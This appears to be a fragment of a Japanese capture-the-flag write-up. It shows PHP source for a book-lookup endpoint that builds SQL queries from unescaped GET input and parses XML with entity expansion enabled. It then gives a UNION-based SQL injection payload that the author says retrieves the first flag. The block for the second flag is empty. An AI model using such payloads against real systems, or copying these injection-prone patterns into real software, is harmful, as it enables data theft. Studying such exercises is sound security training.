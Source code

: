 ```php
  } else {
    $where_condition = "WHERE $condition";
  }
  $query = "SELECT info FROM books $where_condition";
  if ($result = mysqli_query($link, $query, MYSQLI_USE_RESULT)) {
    $books_info = array();
    while($row = $result->fetch_array(MYSQLI_NUM)) {
      $books_info[] = (string) $row[0];
    }
    mysqli_free_result($result);
  }
  mysqli_close($link);
  return $books_info;
}

function xml2array($xml) {
  return array(
    'id' => (string) $xml->id,
    'name' => (string) $xml->name,
    'author' => (string) $xml->author,
    'year' => (string) $xml->year,
    'link' => (string) $xml->link
  );
}

function get_all_books() {
  $books = array();
  $books_info = fetch_books("");
  foreach ($books_info as $info) {
    $xml = simplexml_load_string($info, 'SimpleXMLElement', LIBXML_NOENT);
    $books[] = xml2array($xml);
  }
  return $books;
}

function find_book($condition) {
  $book_info = fetch_books($condition)[0];
  $xml = simplexml_load_string($book_info, 'SimpleXMLElement', LIBXML_NOENT);
  return $xml;
}

$type = @$_GET["type"];
if ($type === "list") {
  $books = get_all_books();
  echo json_encode($books);

} elseif ($type === "excerpt") {
  $id = @$_GET["id"];
  $book = find_book("id='$id'");
  $bookExcerpt = $book->excerpt;
  echo $bookExcerpt;

} else {
  echo "Invalid type";
}
```
- **payload**  
これで`#1`のフラグはゲットできるらしい。  
```txt
4' union select concat('<root><id>4</id><excerpt>',REPLACE((select group_concat(0x7c,info,0x7c) from books),'<','?'),'</excerpt></root>') where ''='
```
これで`#2`のフラグをゲットできるらしい。  
```txt
```
